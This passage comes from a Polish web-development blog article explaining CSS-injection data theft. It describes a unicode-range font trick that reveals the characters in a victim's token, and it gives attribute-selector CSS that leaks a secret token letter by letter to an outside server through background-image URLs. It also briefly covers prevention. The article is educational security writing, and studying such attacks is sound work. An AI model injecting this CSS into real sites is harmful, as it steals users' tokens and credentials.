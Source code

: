 }
…</code></pre>

I tak dalej, dla każdej litery alfabetu. <strong>Następnie używamy tego fonta do ostylowania jednego konkretnego elementu na stronie ofiary i wstrzykujemy jej ten CSS.</strong> Efekt widoczny na zrzucie ekranu poniżej:

<figure id="attachment_857" align="aligncenter" width="1024">
  <a href="https://res.cloudinary.com/type-of-web/wp-content/uploads/2017/12/Screen-Shot-2017-12-14-at-6.35.40-PM.png"><img class="size-large wp-image-857" src="https://res.cloudinary.com/type-of-web/wp-content/uploads/2017/12/Screen-Shot-2017-12-14-at-6.35.40-PM-1024x690.png" alt="Dzięki unicode-range poznałeś wszystkie znaki w tokenie. W tym przypadku deadbeef01." width="1024" height="690" /></a>
  <figcaption>
    Dzięki unicode-range poznałaś/eś wszystkie znaki w tokenie. W tym przypadku deadbeef01.
  </figcaption>
</figure>

Rezultat? Poznałaś/eś właśnie wszystkie znaki użyte w konkretnym miejscu w aplikacji ofiary. Co mogłaś/eś wykraść? Przykładowo <strong>wszystkie znaki tokena</strong> — z GitHuba, Travisa lub, przykład na czasie, jakiejś giełdy BitCoinowej. <strong>Oczywiście nie znamy konkretnej kombinacji, ale bardzo mocno zawężyłaś/eś sobie zakres poszukiwań i łatwiej będzie Ci teraz przeprowadzić kolejny atak</strong> (bruteforce, albo może socjotechnika?)

<h3>Jak zapobiegać?</h3>

No, jeśli masz buga, która pozwala na wstrzykiwanie CSS to <em>po prostu</em> go napraw. A co jeśli Twoja aplikacja musi polegać na tym, że użytkownicy dodają do niej kod CSS (zdarza się!)? Cóż, masz kłopot! Problem ten został opisany i zgłoszony twórcom Google Chrome, którzy jednak uznali, że <strong>nie jest to bug, a raczej niefortunny efekt uboczny:</strong>

<blockquote>This does seem like an unfortunate side effect.

<footer><cite>Źródło: <a href="https://bugs.chromium.org/p/chromium/issues/detail?id=543078">bugs.chromium.org/p/chromium/issues/detail?id=543078</a></cite></footer></blockquote>

<h2>Hacking przez selektory CSS</h2>

Jak dobrze znasz selektory CSS? Przykładowo, czy wiesz co robi selektor <code>#secret-token[value^=0]</code>? Wybiera on tylko elementy, których atrybut <code>value</code> <strong>zaczyna się od 0</strong>. Więc kolejny wektorem ataku przez CSS jest możliwość wykorzystania właśnie takich selektorów CSS do kradzieży danych z konta ofiary.

<h3>Atak przez selektor</h3>

Wystarczy, że wygenerujesz odpowiedni CSS na wzór tego:

<pre class="language-css"><code>#secret-token[value^=A] {
    background-image: url(http://typeofweb.com/token/A);
}
#secret-token[value^=B] {
    background-image: url(http://typeofweb.com/token/B);
}
#secret-token[value^=C] {
    background-image: url(http://typeofweb.com/token/C);
}
…</code></pre>

Znowu: Dla każdej litery alfabetu generujesz odpowiedni CSS. Jeśli token, który chcesz ukraść zaczyna się od litery A, wtedy Twój serwer zostanie o tym poinformowany. Masz już pierwszą literę, co możesz z tym dalej zrobić? <strong>Wygenerować nowy zestaw selektorów</strong> gdzie pierwszą literą jest <code>A</code>, a zgadywana jest druga litera:
